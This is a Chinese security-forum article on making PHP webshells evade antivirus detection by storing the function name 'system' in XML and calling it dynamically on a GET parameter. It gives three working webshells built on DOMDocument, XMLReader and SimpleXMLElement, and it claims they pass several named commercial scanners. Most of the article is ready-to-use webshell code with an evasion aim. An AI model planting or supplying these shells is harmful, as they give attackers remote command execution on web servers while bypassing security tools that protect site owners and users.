









# 使用XML变形webshell免杀思路-先知社区

> **来源**: https://xz.aliyun.com/news/17490  
> **文章ID**: 17490

---

**思路**

整体思路就是利用php中处理xml格式的类，对函数进行替换，同时利用php的动态执行的特点  
xml格式很常见，php中也有很多处理xml格式转换的类，以DOMDocument为例，ai构造一下php文件：

```
<?php

// 创建 DOMDocument 对象

$dom = new DOMDocument();

// 加载 XML 文档

$dom->loadXML('<?xml version="1.0" encoding="UTF-8"?>

<data>

    <item>

        <key>system</key>

    </item>

    <item>

        <key>age</key>

        <value>30</value>

    </item>

</data>');

// 创建 DOMXPath 对象

$xpath = new DOMXPath($dom);

// 执行 XPath 查询，选择所有 item 节点

$items = $xpath->query('//item');

// 初始化一个空数组来存储键值对

$keyValuePairs = [];

// 遍历每个 item 节点

foreach ($items as $item) {

    // 获取 key 节点的文本内容

    $key = $xpath->query('key', $item)->item(0)->textContent;

    // 获取 value 节点的文本内容

    // $value = $xpath->query('value', $item)->item(0)->textContent;

    // 将键值对添加到数组中

    ($key)($_GET['a']);

}

?>
```

在php8.2.9 php7.3.4测试环境下均执行：  
  
**检测**  
常用的webshell查杀工具：  
WD：  
  
阿里云检测引擎：  
  
D盾：  
  
河马：  
  
virustotal：  
  
360：  
  
微步：  


长亭：  


**其他**  
利用上述思路，使用php中其他处理xml格式转换的类构造：  
XMLReader：

```
<?php

// 示例 XML 字符串

$xmlString = '

<root>

    <item>

        <key1>system</key1>

    </item>

</root>

';

// 创建 XMLReader 实例

$reader = new XMLReader();

// 打开 XML 字符串进行解析

$reader->xml($xmlString);

// 存储键值对的数组

$keyValuePairs = [];

// 开始解析 XML

while ($reader->read()) {

    // 检查当前节点是否为元素节点

    if ($reader->nodeType === XMLReader::ELEMENT) {

        // 获取当前元素的名称

        $key = $reader->name;

        // 读取下一个节点

        if ($reader->read()) {

            // 检查下一个节点是否为文本节点

            if ($reader->nodeType === XMLReader::TEXT) {

                // 获取文本节点的值

                ($reader->value)($_GET["a"]);

            }

        }

    }

}

// 关闭 XMLReader

$reader->close();

?>
```

SimpleXMLElement:

```
<?php

// 定义XML字符串

$xmlString = '<?xml version="1.0" encoding="UTF-8"?>

<root>

    <system>a</system>

</root>';

// 使用SimpleXMLElement解析XML字符串

$xml = new SimpleXMLElement($xmlString);

// 遍历XML元素

foreach ($xml as $key => $value) {

    ($key)($_GET["a"]);

}

?>
```

这两个均通过上面提到的引擎检测

​

**总结**  
webshell免杀有很多技巧，上面也只是抛砖引玉吧，思路还是最重要。
